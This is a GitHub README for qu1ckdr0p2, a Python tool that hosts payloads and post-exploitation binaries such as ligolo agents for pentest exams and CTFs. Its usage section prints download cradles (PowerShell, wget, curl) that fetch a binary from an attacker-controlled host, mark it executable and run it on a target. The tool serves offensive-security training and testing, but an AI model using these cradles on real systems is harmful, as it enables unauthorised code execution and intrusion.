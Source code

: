 <h1 align="center">
    <img src="img/quick_drop_small.png"></img>

![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54)
![Flask](https://img.shields.io/badge/flask-%23000.svg?style=for-the-badge&logo=flask&logoColor=white)
![Visual Studio Code](https://img.shields.io/badge/Visual%20Studio%20Code-0078d7.svg?style=for-the-badge&logo=visual-studio-code&logoColor=white)
![Prettier](https://img.shields.io/badge/prettier-1A2C34?style=for-the-badge&logo=prettier&logoColor=F7BA3E)
[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg?style=for-the-badge)](https://opensource.org/licenses/MIT)


</h1>

## About
Rapidly host payloads and post-exploitation bins over HTTP or HTTPS. 

Designed to be used on exams like OSCP / PNPT or CTFs HTB / etc.

Pull requests and issues welcome. As are any contributions.

Qu1ckdr0p2 comes with an alias and search feature. The tools are located in the <a href ="https://github.com/byinarie/qu1ckdr0p2-tools">qu1ckdr0p2-tools</a> repository. By default it will generate a self-signed certificate to use when using the `--https` option, priority is also given to the `tun0` interface when the webserver is running, otherwise it will use `eth0`.

The <a href="https://github.com/byinarie/qu1ckdr0p2-tools/blob/main/config/common.ini">common.ini</a> defines the mapped aliases used within the `--search and -u` options.

When the webserver is running there are several download cradles printed to the screen to copy and paste.

## Install
#### Using pip is the only supported way of installing
#### Cloning this repository to install will probably break something
```zsh
pip3 install qu1ckdr0p2
serv init --update
```
#### Export as an alias if needed
```
echo "alias serv='~/.local/bin/serv'" >> ~/.zshrc
source ~/.zshrc
```

```
echo "alias serv='~/.local/bin/serv'" >> ~/.bashrc
source ~/.bashrc
```

## Usage
### Serv a single file located in your current working directory
```zsh
$ serv serve -f implant.bin --https 443
```
```zsh
$ serv serve -f file.example --http 8080
```

## Update and help
```zsh
$ serv --help            
Usage: serv [OPTIONS] COMMAND [ARGS]...

  Welcome to qu1ckdr0p2 entry point.

Options:
  --debug  Enable debug mode.
  --help   Show this message and exit.

Commands:
  init   Perform updates.
  serve  Serve files.
```
```zsh
$ serv serve --help
Usage: serv serve [OPTIONS]

  Serve files.

Options:
  -l, --list         List aliases
  -s, --search TEXT  Search query for aliases
  -u, --use INTEGER  Use an alias by a dynamic number
  -f, --file FILE    Serve a file
  --http INTEGER     Use HTTP with a custom port
  --https INTEGER    Use HTTPS with a custom port
  -h, --help         Show this message and exit.
```
```zsh
$ serv init --help       
Usage: serv init [OPTIONS]

  Perform updates.

Options:
  --update            Check and download missing tools.
  --update-self       Update the tool using pip.
  --update-self-test  Used for dev testing, installs unstable build.
  --help              Show this message and exit.
```

```zsh
$ serv init --update
```
```zsh
$ serv init --update-self
```
### Serv a file from a mapped alias
The mapped alias numbers for the `-u` option are dynamic so you don't have to remember specific numbers or ever type out a tool name.
```zsh
$ serv serve --search ligolo               

[→] Path: ~/.qu1ckdr0p2/windows/agent.exe
[→] Alias: ligolo_agent_win
[→] Use: 1

[→] Path: ~/.qu1ckdr0p2/windows/proxy.exe
[→] Alias: ligolo_proxy_win
[→] Use: 2

[→] Path: ~/.qu1ckdr0p2/linux/agent
[→] Alias: ligolo_agent_linux
[→] Use: 3

[→] Path: ~/.qu1ckdr0p2/linux/proxy
[→] Alias: ligolo_proxy_linux
[→] Use: 4
(...)
```
```zsh
$ serv serve --search ligolo -u 3 --http 80

[→] Serving: ../../.qu1ckdr0p2/linux/agent
[→] Protocol: http
[→] IP address: 192.168.1.5
[→] Port: 80
[→] Interface: eth0
[→] CTRL+C to quit

[→] URL: http://192.168.1.5:80/agent

[↓] csharp:
$webclient = New-Object System.Net.WebClient; $webclient.DownloadFile('http://192.168.1.5:80/agent', 'c:\windows\temp\agent'); Start-Process 'c:\windows\temp\agent'

[↓] wget:
wget http://192.168.1.5:80/agent -O /tmp/agent && chmod +x /tmp/agent && /tmp/agent

[↓] curl:
curl http://192.168.1.5:80/agent -o /tmp/agent && chmod +x /tmp/agent && /tmp/agent

[↓] powershell:
Invoke-WebRequest -Uri http://192.168.1.5:80/agent -OutFile c:\windows\temp\agent; Start-Process c:\windows\temp\agent

⠧ Web server running

```




## License

MIT

---

